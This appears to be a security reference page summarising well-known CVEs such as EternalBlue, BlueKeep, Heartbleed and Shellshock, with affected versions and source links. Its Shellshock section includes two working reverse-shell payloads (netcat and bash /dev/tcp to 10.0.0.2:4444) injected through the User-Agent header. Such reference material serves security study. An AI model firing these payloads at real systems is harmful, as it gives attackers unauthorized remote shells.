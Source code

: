 # Common Vulnerabilities and Exposures

## Tools

- [Trickest CVE Repository - Automated collection of CVEs and PoC's](https://github.com/trickest/cve)

## Big CVEs in the last 5 years.

### CVE-2017-0144 - EternalBlue

EternalBlue exploits a vulnerability in Microsoft's implementation of the Server Message Block (SMB) protocol. The vulnerability exists because the SMB version 1 (SMBv1) server in various versions of Microsoft Windows mishandles specially crafted packets from remote attackers, allowing them to execute arbitrary code on the target computer.

Afftected systems:
- Windows Vista SP2
- Windows Server 2008 SP2 and R2 SP1
- Windows 7 SP1
- Windows 8.1
- Windows Server 2012 Gold and R2
- Windows RT 8.1
- Windows 10 Gold, 1511, and 1607
- Windows Server 2016

### CVE-2017-5638 - Apache Struts 2

On March 6th, a new remote code execution (RCE) vulnerability in Apache Struts 2 was made public. This recent vulnerability, CVE-2017-5638, allows a remote attacker to inject operating system commands into a web application through the “Content-Type” header.

### CVE-2018-7600 - Drupalgeddon 2

A remote code execution vulnerability exists within multiple subsystems of Drupal 7.x and 8.x. This potentially allows attackers to exploit multiple attack vectors on a Drupal site, which could result in the site being completely compromised.

### CVE-2019-0708 - BlueKeep

A remote code execution vulnerability exists in Remote Desktop Services – formerly known as Terminal Services – when an unauthenticated attacker connects to the target system using RDP and sends specially crafted requests. This vulnerability is pre-authentication and requires no user interaction. An attacker who successfully exploited this vulnerability could execute arbitrary code on the target system. An attacker could then install programs; view, change, or delete data; or create new accounts with full user rights.

### CVE-2019-19781 -  Citrix ADC Netscaler

A remote code execution vulnerability in Citrix Application Delivery Controller (ADC) formerly known as NetScaler ADC and Citrix Gateway formerly known as NetScaler Gateway that, if exploited, could allow an unauthenticated attacker to perform arbitrary code execution.

Affected products:
- Citrix ADC and Citrix Gateway version 13.0 all supported builds
- Citrix ADC and NetScaler Gateway version 12.1 all supported builds
- Citrix ADC and NetScaler Gateway version 12.0 all supported builds
- Citrix ADC and NetScaler Gateway version 11.1 all supported builds
- Citrix NetScaler ADC and NetScaler Gateway version 10.5 all supported builds

## Older, but not forgotten

### CVE-2014-0160 - Heartbleed

The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. This weakness allows stealing the information protected, under normal conditions, by the SSL/TLS encryption used to secure the Internet. SSL/TLS provides communication security and privacy over the Internet for applications such as web, email, instant messaging (IM) and some virtual private networks (VPNs).

### CVE-2014-6271 - Shellshock

Shellshock, also known as Bashdoor is a family of security bug in the widely used Unix Bash shell, the first of which was disclosed on 24 September 2014. Many Internet-facing services, such as some web server deployments, use Bash to process certain requests, allowing an attacker to cause vulnerable versions of Bash to execute arbitrary commands. This can allow an attacker to gain unauthorized access to a computer system.

```powershell
echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc 10.0.0.2 4444 -e /bin/sh\r\n"
curl --silent -k -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.0.0.2/4444 0>&1" "https://10.0.0.1/cgi-bin/admin.cgi" 
```

## Thanks to

* [Heartbleed - Official website](http://heartbleed.com)
* [Shellshock - Wikipedia](https://en.wikipedia.org/wiki/Shellshock_(software_bug))
* [Imperva Apache Struts analysis](https://www.imperva.com/blog/2017/03/cve-2017-5638-new-remote-code-execution-rce-vulnerability-in-apache-struts-2/)
* [EternalBlue - Wikipedia](https://en.wikipedia.org/wiki/EternalBlue)
* [BlueKeep - Microsoft](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2019-0708)
